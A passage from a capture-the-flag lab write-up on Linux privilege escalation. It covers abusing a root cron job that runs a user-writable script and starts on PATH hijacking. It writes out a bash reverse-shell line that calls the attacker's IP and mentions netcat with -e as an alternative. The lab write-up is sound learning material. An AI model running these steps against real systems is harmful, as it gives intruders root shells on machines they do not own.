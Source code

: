 Above is an example of a cronjob in the THM lab. It's pretty vulnerable as one of the scripts is directly run from the /home/karen/ user folder as a root user. And since this is a CTF format it runs every minute. 

```bash
$ ls -l
total 4
-rw-r--r-- 1 karen karen 77 Jun 20  2021 backup.sh

$ cat backup.sh
#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*

$ 
```


As our current user, we can change and access this script. Now we can use a reverse TCP connection in the script to send a root shell back to the attacker user.


Note: 

Crontab is always worth checking as it can sometimes lead to easy PrivEsc vectors. The following scenario is not uncommon:
1. System administrator needs to run script at regular intervals
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it
4. They do not clean the relevant cron job


Using a bash reverse shell usually the first way to go as `nc -e` may not be supported. 

```bash
$ cat antivirus.sh
#!/bin/bash

bash -i >& /dev/tcp/10.6.82.216/16667 0>&1
```



#### Task 10: PrivEsc: PATH

If a folder for your user has write permissions in the path, you could potentially hijack an application to run a script. 

A simple way to search for writeable folders is by using:

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

Output in lab:

```bash
karen@ip-10-10-168-32:/home$ find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
dev
etc
home
proc
run
snap
sys
tmp
usr
var
```
